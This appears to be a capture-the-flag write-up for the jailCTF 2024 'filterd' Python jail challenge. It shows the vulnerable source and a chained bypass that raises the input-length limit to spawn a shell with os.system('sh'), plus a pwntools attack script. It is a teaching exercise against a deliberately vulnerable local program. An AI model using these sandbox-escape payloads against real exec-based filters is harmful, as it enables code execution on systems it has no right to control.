 # jailCTF 2024 filterd

```python
#!/usr/local/bin/python3
M = 14  # no malicious code could ever be executed since this limit is so low, right?
def f(code):
    assert len(code) <= M
    assert all(ord(c) < 128 for c in code)
    assert all(q not in code for q in ["exec", 
"eval", "breakpoint", "help", "license", "exit"
, "quit"])
    exec(code, globals())
f(input("> "))
```

Requirement:

1. Input length <= 14: raise input length limit on the fly
2. Blacklisted builtins: reuse existing function to re-evaluate

Initially, I tried to change the input length limit to something larger and use `f(input())` to execute more code:

```python
M=99;f(input())
```

However, it has 15 bytes in length. The [official writeup](https://github.com/jailctf/challenges-2024/blob/master/filterd/solve/README.md) provides a nice bypass by storing `input` to a variable named `i` and call it later to shorten the input:

```
i=input;f(i())
M=10000;f(i())
__import__('os').system('sh')
```

Attack script:

```python
from pwn import *

context(log_level = "debug")

p = process(["python3", "filterd.py"])
p.recvuntil(b"> ")
# reduce length of f(input())
p.sendline(b"i=input;f(i())")
# raise input length limit
p.sendline(b"M=99;f(i())")
p.sendline(b"import os;os.system('sh')")
p.interactive()
```
